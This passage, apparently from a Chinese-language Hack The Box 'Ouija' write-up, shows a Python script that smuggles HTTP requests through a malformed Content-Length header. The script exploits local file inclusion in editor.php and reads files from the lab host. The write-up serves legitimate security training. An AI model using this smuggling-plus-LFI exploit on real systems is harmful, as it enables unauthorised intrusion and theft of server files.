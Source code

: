    上述请求发送两次，如果得不到下图结果需要多测试几次

   ![image-20231206175410838](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202312072319556.png)

   可以看到http://dev.ouija.htb下有一个editor.php文件，从file参数来看可以测试一下LFI，

   

4. `http://dev.ouija.htb/editor.php`处的LFI漏洞

   测试http://dev.ouija.htb/editor.php?file= 这边的file参数，它较为容易存在LFI漏洞。

   一个简单的python脚本帮助枚举`../`个数

   ```
   import socket
   import sys
   import re
   
   if len(sys.argv) < 2:
       print("missing file param")
       sys.exit()
   
   file = sys.argv[1]
   
   # Calculate Content-Length
   cl = len("GET http://dev.ouija.htb/editor.php?file=%s HTTP/1.1\r\nh:" % file)
   
   # Construct the payload
   payload = f"""POST / HTTP/1.1\r\nHost: ouija.htb\r\nContent-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:\r\nContent-Length: {cl}\r\n\r\nGET http://dev.ouija.htb/editor.php?file={file} HTTP/1.1\r\nh:GET / HTTP/1.1\r\nHost: ouija.htb\r\n\r\n"""
   
   # Target host and port
   target_host = 'ouija.htb'
   target_port = 80
   
   # Create a socket object
   client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   
   # Connect to the target
   client.connect((target_host, target_port))
   
   # Send data
   client.send(payload.encode('utf-8'))
   
   # Receive data in a loop
   response = b''
   while True:
       chunk = client.recv(4096)
       if not chunk:
           break
       response += chunk
       
   #There is an error in using the following statement to receive the result
   #response = client.recv(9999999)
   
   # Print the response
   #print(response.decode('utf-8'))
   
   output = re.search(r'<textarea name="content" id="content" cols="30" rows="10">([\s\S]*?)<\/textarea>', response.decode('utf-8'))
   
   if output:
       extracted_content = output.group(1)
   ```